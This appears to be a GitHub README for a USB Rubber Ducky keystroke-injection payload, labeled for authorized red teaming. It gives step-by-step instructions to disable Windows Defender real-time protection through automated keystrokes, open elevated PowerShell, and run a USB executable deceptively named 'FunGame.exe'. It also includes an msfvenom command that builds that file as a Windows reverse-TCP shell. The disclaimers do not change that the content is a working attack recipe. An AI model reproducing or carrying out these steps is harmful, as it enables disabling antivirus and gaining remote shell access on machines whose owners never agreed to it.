 # HID Payload: Windows Defender Disable + USB Executable Launch (Authorized Use Only)

> ⚠️ For ethical red teaming, physical security testing, and educational use **only**.

This repository demonstrates how to use a HID injection device (such as a **USB Rubber Ducky**) to:

* Simulate GUI automation of **disabling Windows Defender real-time protection**
* Prompt the user to plug in a USB drive
* Execute an `.exe` payload (e.g. `FunGame.exe`) from the USB device

⚠️ **Do not run this code on any system you do not have explicit permission to test.**

---

## 💼 Intended Use Cases

* Red team physical security testing (with written authorization)
* Social engineering simulation exercises
* Demonstrating physical attack surface to stakeholders
* Purple team testing of endpoint defenses

---

## 📋 What It Does (Step-by-Step)

1. Opens the Windows Defender Security Center via `windowsdefender:` URI
2. Navigates the UI using `TAB`, `ENTER`, and `SPACE` keystrokes to disable **real-time protection**
3. Launches an elevated PowerShell session using `Start-Process -Verb runAs`
4. Displays a message box instructing the user to plug in the USB within 15 seconds
5. Launches another elevated PowerShell session
6. Executes `FunGame.exe` directly from the USB (drive `D:\` assumed, adjust as needed)

---

## 🖱 Payload Trigger

Use a HID device like [Hak5 Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) or [MalDuino](https://malduino.com/) to inject the keystrokes in `payload.txt`.

---

## 📁 Files
* `payload.txt` – Final Ducky Script HID payload 
* `README.md` – Documentation

---

## 🚀 Setup Instructions

1. Flash the HID device with the provided payload using the official encoder.
2. Prepare a USB drive labeled `MYUSB` with a file named `FunGame.exe` with a msfvenom payload using --msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=4444 -f exe > FunGame.exe--
3. Insert the HID device into the target machine.
4. After Defender is disabled and the message appears, plug in the USB.
5. `FunGame.exe` will be executed from the USB.

---

## ⚙️ Customization

To change the USB drive letter:

* Modify this line in `payload.txt`:

  ```ducky
  STRING Start-Process "D:\FunGame.exe"
  ```
